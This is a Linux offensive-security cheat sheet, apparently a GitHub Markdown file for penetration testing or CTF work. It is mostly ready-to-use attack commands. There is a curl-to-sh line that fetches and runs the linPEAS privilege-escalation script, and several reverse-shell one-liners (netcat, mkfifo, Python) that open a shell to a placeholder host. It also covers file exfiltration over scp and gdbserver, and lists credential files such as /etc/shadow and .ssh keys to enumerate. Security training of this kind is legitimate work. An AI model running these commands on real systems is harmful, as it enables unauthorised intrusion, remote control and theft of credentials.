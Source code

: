 # Linux

- [Sudo](#sudo)
- [Auto Script](#auto-script)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Gdbserver](#gdbserver)
- [File Enumeration](#file-enumeration)


## Sudo
```
sudo -l
```

## Auto Script
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

## Reverse Shell
### Server
```
nc -lp 4444
```

### Netcat
```
nc ip 4444 -e /bin/bash
```

### Mkfifo
```
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Python
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

## SCP
#### Download File
```
scp -P port user@192.168.1.ip:path .
```

#### Upload File
```
scp -P port file user@192.168.1.ip:path
```

#### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

## Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```

## File Enumeration
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command

```
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```
